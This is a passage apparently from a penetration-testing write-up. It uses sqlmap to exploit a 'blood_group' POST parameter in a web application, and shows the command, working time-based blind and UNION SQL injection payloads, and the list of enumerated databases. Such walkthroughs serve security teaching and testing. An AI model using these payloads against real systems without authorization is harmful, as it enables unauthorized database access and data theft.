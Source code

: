 Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:

`sqlmap -r req.txt -p blood_group --dbs`

`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`

Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.

```
           
nare@nare$ sqlmap -r req.txt -p blood_group --dbs
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test

```
